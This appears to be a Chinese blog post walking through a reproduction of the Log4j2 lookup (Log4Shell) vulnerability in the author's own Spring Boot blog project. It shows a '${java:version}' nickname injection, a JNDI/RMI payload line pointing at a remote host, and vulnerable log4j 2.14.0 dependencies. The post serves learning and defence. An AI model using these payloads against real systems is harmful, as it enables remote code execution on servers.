



大家好，我是陌溪。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，陌溪看了看他们的聊天内容，一句话：**核弹级的漏洞**。



此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。


## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

陌溪百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

陌溪本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。



## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。


下面，陌溪打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。



下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**


因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本


## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目


然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**


${jndi.rmi://192.168.12.1:8888/danger}


在注册服务前，输入命令start rmiregistry，会弹出以下方框


start rmiregistry


```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

